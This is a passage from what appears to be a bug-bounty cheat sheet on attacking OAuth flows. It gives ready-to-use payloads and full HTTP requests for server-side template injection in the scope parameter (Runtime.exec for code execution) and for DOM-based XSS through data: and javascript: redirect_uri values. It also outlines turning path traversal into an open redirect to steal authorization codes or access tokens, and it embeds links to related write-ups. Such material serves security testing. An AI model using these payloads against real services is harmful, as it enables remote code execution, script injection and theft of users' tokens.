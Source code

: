 {% embed url="https://blog.usejournal.com/reflected-xss-in-zomato-f892d6887147" %}

### SSTI in Scope Parameter

> In OAuth Connect Request Try To Insert SSTI Payloads In Scope Parameter e.g. ${T(java.lang.Runtime).getRuntime().exec("calc.exe")} To Get RCE

```http
GET /oauth/Connect?
 type=code&client_id=ID&state=Random&redirect_uri=URL
 &scope=${T(Java.lang.Runtime).getRuntime().
 exec("calc.exe")} HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Accept-Encoding: gzip, deflate
```

{% embed url="https://www.gosecure.net/blog/2018/05/17/beware-of-the-magic-spell-part-2-cve-2018-1260/" %}

### XSS in RedirectUri&#x20;

> Try To Insert XSS Payloads As Value Of Redirect URL e.g. data:company.com;text/html;charset=UTF-8,%3Chtml%3E%3Cscript%3Edocument.write(document.domain);%3C%2Fscript%3E%3Ciframe/src= xxxxx%3Eaaaa%3C/iframe%3E%3C%2Fhtml%3E To GET DOM-Based XSS

```http
GET /oauth/Connect?type=code&client_id=ID&state=Random
&redirect_uri=data:company.com;text/html;charset=UTF-8
,%3Chtml%3E%3Cscript%3Edocument.write(document.
domain);%3C%2Fscript%3E%3Ciframe/src=xxxxx%3Eaa
aa%3C/iframe%3E%3C%2Fhtml%3E&scope=read HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
-----------------------------
POST /oauth/Connect HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: Number
client_id=ID&client_secret=SECRET&type=Authorization&
code=Auth_code&redirect_uri=javascript:fetch('XSS')
```

{% embed url="http://stamone-bug-bounty.blogspot.com/2017/10/dom-xss-auth14.html" %}

{% embed url="https://ysamm.com/?p=695" %}

### Path Traversal to open Redirect

> Try To Insert Redirect URL Parameter To Redirect URL As Value To Steal The Authorization Code OR The Access Token
